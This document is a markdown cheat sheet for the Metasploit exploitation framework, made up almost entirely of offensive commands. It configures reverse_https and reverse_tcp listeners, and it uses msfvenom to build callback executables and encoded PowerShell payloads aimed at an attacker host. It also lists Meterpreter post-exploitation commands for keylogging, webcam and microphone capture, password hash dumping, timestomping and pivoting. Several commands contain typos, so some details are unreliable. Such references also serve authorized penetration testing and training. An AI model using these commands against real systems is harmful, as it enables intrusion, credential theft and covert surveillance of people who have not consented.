 ```yaml
---
title: Metasploit
category: Exploitation
order: 2
---
```


> **Useage** 

Start w/ RC File | <code> msfconsole -r meta_config </code>
Example RC file | <code> use exploit/multi/handler <br> set PAYLOAD windows/meterpreter/reverse_https <br> set LHOST 10.10.75.1 <br> set LPORT 8443 <br> set ExitOnSession false <br> exploit -j </code>
Run a rc file | <code> resource [location of RC file] </code>
location | <code> /opt/metasploit-4.11/ or /usr/share/framework2/ </code>
Exploit Location | <code> [location]/apps/pro/msf3/modules/exploits/ </code>
Payload Location | <code> [location]/apps/pro/msf3/modules/payloads </code>
run | <code> ./app/msfconssole </code>
Show Exploits | <code> show exploits </code>
Find Exploits | <code> search multi/handler or search android </code>
Info about Exploits | <code> info exploit/multi/handler </code>
Use Exploit | <code> use exploit/multi/handler </code>
Show Payloads | <code> show payloads </code>
Set Payload | <code> set PAYLOAD windows/shell/reverse_tcp </code>
Show Options on Payload | <code> show options </code>
Set Remote Hosts | <code> set RHOST 10.10.77.1 </code>
Set Local Hosts | <code> set LHOST 10.10.75.1 </code>
Exit on Session | <code> set ExitOnSession false </code>
Exploit as Job | <code> exploit -j </code>
list running jobs | <code> jobs </code>
List sessions | <code> sessions -l </code>
Interact with session | <code> session -i [n] </code>
Background a shell | <code> CTRL-Z </code>
Kill sessions  | <code> sessions -K </code>
Add a route | <code> route add [victim2 subnet] [netmask] [sid] </code> 
Errno:ECONNECT RESET | Reason: Windows Antivirus on client

> **Database** 

Commands | db_connect, db_disconnect, db_driver, db_status, db_export
Data | hosts, vulns, services, creds, loot, notes
Populate Hosts/Ports | use auxiliary/scanner/protscan/[tcp or syn] <br> use auxiliary/discovery/udp_sweep <br> db_nmap
Manually | hosts --add/--delete [host]<br> services --add/--delete -p [port] -r [proto] -s [name] [host1, host2,...] <br> notes --add/--delete -r [type] -n '[note text]' [host1, host2,...]
Import | db_import Nmap XML (-oX option) Nessus XMLv2 or XMLv2 (.nessus)
Hosts Help and Search | hosts -h <br> host -S linux -R (adds to RHOST)
Vulnearabilities | vulns -h <br> vulns -S RPC <br> vulns -P 445

> **MSFVenom**

Example | <code> msfvenom -p windows/shell/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe > /tmp/file.exe </code>
Powershell Reflection | <code> msfvenom -p windows/meterpreter/reverse_https lhost=[attacker] lport=[attackerport] -f psh-reflection -a x86 > output.txt </code> 
Powershell Command | <code> msfvenom –a x86 –platform windows –p windows/meterpreter/reverse_https LHOST=[attackerIP] LPORT=[attackerPort] -e x86/shikata_ga_nai –f psh-cmd </code> 
Help | msfvenom --help-formats

> **Meterpreter**

Get system info | sysinfo
Read Registry | reg
Change local directory | lcd
Download and Upload | download/upload
Make/Remove Directory | mkdir/rmdir
Edit a file | edit
Get the PID | getpid
Get the users ID | getuid
process list | ps
Drop to Command Prompt | Shell
Terminate Program | kill [pid]
Run a program | execute [program]
Change process | migrate [PID]
Display Routing Table | route
TCP relay | portfwd add -l 1111 -p 80 -r Target 2
Screen Shot | screenshot -p [filename.jpg]
List Webcams and take a picture | webcam_list, webcam_snap
Record Microphone | record_mic -d [Seconds]
Keylogger | keyscan_start, keyscan_stop, keyscan_dump
modules | data/meterpreter/
Load Module | use [last component of dll name]
priv modules | hashdump (SAM database), timestomp (MACE dates/times)
Port Scanner | meterpreter > load msfmap <br> meterpreter > msfmap







